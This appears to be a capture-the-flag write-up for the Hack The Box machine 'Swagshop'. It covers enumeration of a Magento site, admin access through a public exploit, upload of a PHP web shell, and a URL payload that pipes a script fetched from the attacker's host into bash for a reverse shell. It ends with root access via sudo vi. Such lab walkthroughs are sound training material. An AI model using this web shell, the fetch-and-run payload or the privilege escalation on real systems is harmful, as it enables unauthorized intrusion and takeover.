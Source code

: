 ```yaml
---
layout: default
---
```


# Swagshop

# Enumeration

IP → 10.10.10.140

Port scan reported the following opened ports.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

### Port 80

In the HTTP headers we find a  domain name.

```bash
┌──(kali㉿kali)-[~/machines/linux/swagshop]
└─$ curl -I 10.10.10.140                                                                                                       
HTTP/1.1 302 Found
Date: Sun, 19 Nov 2023 10:55:00 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: http://swagshop.htb/
Content-Type: text/html; charset=UTF-8
```

```bash
┌──(kali㉿kali)-[~/machines/linux/swagshop]
└─$ whatweb 10.10.10.140                            
http://10.10.10.140 [302 Found] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.140], RedirectLocation[http://swagshop.htb/]
http://swagshop.htb/ [200 OK] Apache[2.4.29], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[frontend], IP[10.10.10.140], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```

Since we have a domain we can perform a **subdomain enumeration**.

In the page we can many possible attacks:

- Attacking the cookies
- Attacking the products ID.
- Search an exploit for magento CMS

Directory enumeration:

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -r -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --url http://10.10.10.140
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/api                  (Status: 200) [Size: 1698]
/media                (Status: 200) [Size: 1917]
/includes             (Status: 200) [Size: 946]
/lib                  (Status: 200) [Size: 2877]
/app                  (Status: 200) [Size: 1698]
/shell                (Status: 200) [Size: 1547]
/skin                 (Status: 200) [Size: 1331]
/var                  (Status: 200) [Size: 2097]
/errors               (Status: 200) [Size: 2149]
/mage                 (Status: 200) [Size: 1319]
/server-status        (Status: 403) [Size: 277]
```

Listing PHP files:

```bash
┌──(kali㉿kali)-[~]
└─$ wfuzz --hc 404 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://swagshop.htb/FUZZ.php                                                                        
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000002:   200        327 L    904 W      16593 Ch    "index"                                                                                                                                                                    
000000702:   200        3 L      6 W        44 Ch       "install"                                                                                                                                                                  
000001013:   200        0 L      4 W        37 Ch       "api"                                                                                                                                                                      
000002410:   200        0 L      0 W        0 Ch        "cron"
```

Since this is a CMS, in unlikely we find a vulnerability ourselves, so there must be available exploits.

```bash
┌──(kali㉿kali)-[~/machines/linux/swagshop/exploits]
└─$ searchsploit magento                
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                                                                                                                              | php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                                                                                                                   | php/webapps/38651.txt
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting                                                                                                        | php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting                                                                                                  | php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                                                                                                                                                 | php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                                                                                                                            | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                                                                                                                              | php/webapps/37811.py
Magento eCommerce - Local File Disclosure                                                                                                                                                                 | php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                                                                                                                                                 | xml/webapps/37977.py
Magento eCommerce CE v2.3.5-p2 - Blind SQLi                                                                                                                                                               | php/webapps/50896.txt
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                                                                                                                    | php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                                                                                                                               | php/webapps/35052.txt
Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Process Bypass                                                                                                                              | php/webapps/48135.php
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

The first one we will use is `Magento eCommerce - Remote Code Execution | xml/webapps/37977.py` .

Making a proper changes to the script, we will have admin access to the adminstration panel of Magento.

# Foothold

Now searching in the internet we find that there is a way to upload custom phtml files to the server. This basically means that we can execute php code in the server. The article that explains this is this one [https://blog.scrt.ch/2019/01/24/magento-rce-local-file-read-with-low-privilege-admin-rights/](https://blog.scrt.ch/2019/01/24/magento-rce-local-file-read-with-low-privilege-admin-rights/). We will do as follows:

- Modificate an existing product to have  a `Custom Option` of type `File` with `phtml` as valid extension.
- We save the changes and add this modify product to our cart, uploading our phtml file.

```bash
<?php

phpinfo();

system($_GET['cmd']); 

?>
```

- We go to this route `/media/custom_options/quote/` and find our uploaded file. The name will be a md5 hash. Upon opening the file we should see the `phpinfo` and we can execute commands with parameter `cmd` in the url.

If we send the following payload we should receive a reverse shell.

```bash
http://swagshop.htb/media/custom_options/quote/s/p/fc6cd7e927e8f628a58e13970b9ba8e6.phtml?cmd=curl%2010.10.14.11/shell.sh%20|%20bash
```

And we do.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.140] 56572
bash: cannot set terminal process group (1668): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html/media/custom_options/quote/s/p$ whoami
whoami
www-data
www-data@swagshop:/var/www/html/media/custom_options/quote/s/p$
```

# Privilege escalation

Basic enumeration lead us toknow that user ww-data can execute one sudo command.

```bash
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

To exploit this we simply execute vi

```bash
sudo -u root /usr/bin/vi /var/www/html/install.php
```

And execute `:shell` from vi CLI. That will gives us a shell as root.

```bash
root@swagshop:/var/www/html# whoami
root
root@swagshop:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```